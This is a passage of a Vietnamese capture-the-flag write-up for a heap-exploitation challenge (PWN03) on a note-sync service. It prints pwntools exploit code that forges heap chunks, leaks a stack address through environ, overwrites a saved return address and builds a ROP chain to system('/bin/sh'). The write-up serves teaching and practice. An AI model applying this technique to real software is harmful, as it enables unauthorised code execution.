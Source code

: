 ```py=
note_sync('c')
edit_note(b'a', b'a', 1, b'a')
new_note(b'b', b'b', 1, b'hehe')
note_sync('s')
```

* Ở đây mình thay đổi `content` thành `environ`
* Sau đó lại sử dụng bug này để rop
* Overwrite `content` của `1` note thành `saved rip` của `note_sync`, khi `note_sync` chạy đến `memcpy` của note đó rồi thì ta được ropchain

```py=
ayload += p64(0) + p64(0x21) + b'A'*0x10 + p64(0) + p64(0x91)
payload += p64(0x62) + p64(0)*7 + p64(0x62) + p64(0)*3 + p64(0x10) + p64(0)
payload += p64(stack)
payload += p64(heap + 0x630) + p64(0) + p64(0x21)
payload += p64(libc.address + 0x21ace0)*2
payload += p64(0) + p64(0x91)
payload += p64(0x61) + p64(0)*7
payload += p64(0x61) + p64(0)*3
payload += p64(0x200) + p64(0) + p64(heap + 0x400)  + p64(heap + 0x770)*2 + p64(0x91)
payload += p64(0x62) + p64(0)*7
payload += p64(0x62) + p64(0)*3
payload += p64(0x50) + p64(0x2)
payload += p64(stack - 0x338) + p64(heap + 0x6e0) + p64(0) + p64(0x61)
payload += p64(0xdeadbeef)
print('len: ', hex(len(payload)))

payload2 = b'hihi'
RET = 0x00000000000baaf9 + libc.address#: xor rax, rax ; ret

rop = ROP(libc)
#rop.raw(RET)
rop.system(next(libc.search(b'/bin/sh\x00')))
#rop.read(0, stack - 0x338, 0x500)

payload2 = rop.chain()
delete_note(b'a', b'a')
delete_note(b'b', b'b')
new_note(b'a', b'a', 0x400, payload)
new_note(b'b', b'b', 0x50, payload2)
note_sync('c')
edit_note(b'a', b'a', 0x200, b'a')
note_sync('s')
```

![Screenshot 2024-01-29 143130](https://hackmd.io/_uploads/rkd1kkHc6.png)


## PWN03-FLAG2

* Để lấy dc `flag2` thì chúng ta phải dùng `backend` để đọc flag nên ở đây mình sẽ khai thác `backend`
* Có `1` bug ở trên `backend` khi tạo `1` note với flag `is_encrypt` với content ko quá bé thì sau khi `backend` encrypt thì chunk chứa cipher text sẽ bị overwrite size của chunk trước đó. Mình ko khai thác được lỗi này
* Tiếp đến ở `option` `FETCH` khi fetch all tức `note_sync('s')` trên `interface`
